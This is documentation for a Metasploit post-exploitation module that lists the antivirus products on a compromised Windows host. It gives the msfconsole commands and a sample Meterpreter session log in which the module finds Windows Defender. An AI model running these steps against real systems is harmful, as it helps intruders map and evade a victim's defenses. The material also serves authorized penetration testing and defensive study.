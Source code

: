 ## Vulnerable Application

This module will enumerate all installed AntiVirus applications on the target Windows OS

## Verification Steps
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/enum_av```
4. Do: ```set SESSION <session id>```
5. Do: ```run```

## Options

**SESSION**

The session to run this module on.

## Scenarios

### Windows 10 (20H2 build 19042.1645)

  ```
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-10 14:18:44 -0700
    meterpreter > bg
    [*] Backgrounding session 1...
    
    msf6 > use windows/gather/enum_av
    msf6 post(windows/gather/enum_av) > set session 1
    session => 1
    msf6 post(windows/gather/enum_av) > run
    [*] Post module execution completed
    msf6 post(windows/gather/enum_av) > set verbose true
    verbose => true
    msf6 post(windows/gather/enum_av) > run
    
    [*] Found AV product:
    displayName=Windows Defender
    instanceGuid={D68DDC3A-831F-4fae-9E44-DA132C1ACF46}
    pathToSignedProductExe=windowsdefender://
    pathToSignedReportingExe=%ProgramFiles%\Windows Defender\MsMpeng.exe
    productState=401664
    timestamp=Thu, 21 Apr 2022 15:50:46 GMT
    
    [*] Post module execution completed
    ```
